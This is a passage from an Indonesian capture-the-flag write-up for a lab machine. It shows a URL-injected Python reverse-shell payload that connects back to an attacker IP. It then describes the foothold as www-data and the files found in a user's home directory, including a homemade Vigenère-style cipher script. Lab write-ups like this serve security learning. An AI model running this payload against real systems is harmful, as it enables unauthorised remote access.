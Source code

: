 Kita ternyata bisa melakukan RCE dan revshell melalui input url tadi

```
http://10.10.10.168:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.218%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);'
```

### User

![Image](img/7.jpg)

Kita mendapatkan revshell sebagai www-data, abaikan error message EOL tersebut.

Masuk ke directory home/robert kita bisa melihat user.txt

![Image](img/8.jpg)

Namun www-data tidak memiliki permission untuk membuka user.txt, kita harus mengauthentikasi sebagai robert

Isi dari file check.txt

```
Encrypting this file with your key should result in out.txt, make sure your key is correct!
```

Isi dari file out.txt

```
ÚÈêÚÞØÛÝÝ	×ÐÊß
ÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐ
êÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäè	ÎÍÚÎëÑÓäáÛÌ×	v
```

Isi dari file SuperSecureCrypt.py

```
import sys
import argparse
 
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
 
def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
```